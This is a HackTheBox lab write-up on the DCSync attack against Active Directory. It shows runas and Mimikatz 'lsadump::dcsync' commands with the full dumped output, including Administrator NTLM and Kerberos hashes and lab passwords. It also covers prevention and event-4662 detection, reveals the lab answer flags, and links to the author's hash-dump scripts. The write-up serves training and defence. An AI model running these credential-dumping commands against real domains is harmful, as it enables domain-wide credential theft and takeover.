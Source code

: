 ```yaml
---
title: "28. DCSync"
authors: [asalucci]
tags: [HackTheBox, CTF, trustinveritas, alessandro]
published: 2025-04-28
categories: ["SOC", "Analyst", "Write", "Up", "HackTheBox"]
---
```


import RevealFlag from '@site/src/components/RevealFlag';

# DCSync

## Description

`DCSync` is an attack that threat agents utilize to **impersonate a Domain Controller** and **perform replication with a targeted Domain Controller** to `extract password hashes` from **Active Directory**. The attack can be performed both from the perspective of `a user account` or `a computer`, as long as they have the **necessary permissions assigned**, which are:

- `Replicating Directory Changes`
- `Replicating Directory Changes All`

---

## Attack

We will utilize the user `Rocky` (whose password is `Slavi123`) to showcase the `DCSync` attack. When we check the permissions for Rocky, we see that he has `Replicating Directory Changes` and `Replicating Directory Changes All` assigned:

![AD-Permissions-Rocky](img/AD-Permissions-Rocky.png)

First, we need to start a new command shell running as Rocky:

```cmd
C:\Users\bob\Downloads>runas /user:eagle\rocky cmd.exe

Enter the password for eagle\rocky:
Attempting to start cmd.exe as user "eagle\rocky" ...
```

![cmd-1](img/cmd-1.png)

Subsequently, we need to use `Mimikatz`, one of the tools with an implementation for performing `DCSync`. We can run it by specifying the username whose password hash we want to obtain if the attack is successful, in this case, the user `Administrator`:

### 🔓 Mimikatz

```cmd
C:\Mimikatz>mimikatz.exe

mimikatz # lsadump::dcsync /domain:eagle.local /user:Administrator

[DC] 'eagle.local' will be the domain
[DC] 'DC2.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 07/08/2022 11.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

![mimikatz](img/mimikatz.png)

It is possible to specify the `/all` parameter instead of a specific username, which will **dump the hashes of the entire AD environment**. We can perform `pass-the-hash` with the obtained hash and authenticate against any Domain Controller.

---

## Prevention

What `DCSync` abuses is **a common operation** in Active Directory environments, as `replications happen between Domain Controllers all the time`; therefore, **preventing** DCSync out of the box is not an option. The only prevention technique against this attack is using solutions such as the [RPC Firewall](https://github.com/zeronetworks/rpcfirewall), a third-party product that can `block` or `allow` **specific RPC calls with robust granularity**. For example, using `RPC Firewall`, we can **only allow replications from Domain Controllers**.

---

## Detection

Detecting `DCSync` is easy because **each Domain Controller replication generates** an [event with the ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4662). We can pick up abnormal requests immediately by monitoring for this event ID and checking whether the initiator account is a Domain Controller. Here's the event generated from earlier when we ran `Mimikatz`; it serves as a flag that a user account is performing this replication attempt:

![4662](img/4662.png)

Since replications occur constantly, we can **avoid false positives** by ensuring the followings:

- Either the property `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` or `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` is [present in the event](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/1522b774-6464-41a3-87a5-1e5633c3fbbb).

- `Whitelisting systems/accounts` with a (valid) business reason for replicating, such as `Azure AD Connect` *(this service constantly replicates Domain Controllers and sends the obtained password hashes to Azure AD)*.

---

## Questions

### 1. `Connect to the target and perform a DCSync attack as the user rocky (password:Slavi123). What is the NTLM hash of the Administrator user?`

<RevealFlag>{`fcdc65703dd2b0bd789977f1f3eeaecf`}</RevealFlag>

#### mimikatz

```cmd
runas /user:eagle\rocky cmd.exe
```

> Password: Slavi123

```cmd
cd C:\Mimikatz
```

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
```

```cmd
lsadump::dcsync /domain:eagle.local /user:Administrator
```

```cmd
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: <HERE-IS-THE-HASH>

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8
```

---

### `2. After performing the DCSync attack, connect to DC1 as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the Task Category of the events generated by the attack?`

<RevealFlag>{`Directory Service Access`}</RevealFlag>

<br />

![Event-ID-4662](img/Event-ID-4662.png)

---

## 🎁 Bonus

:::note
Check out two exclusive Mimikatz scripts I built

- [Automatic HashDump for Mimikatz](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/dump-hashes.ps1)
- [Mimikatz log output parser for Hashcat](https://github.com/trustinveritas/pentest-project-site/blob/main/Active-Directory/mimikatz/mimikatz-log-to-hashcat-parser.ps1)

:::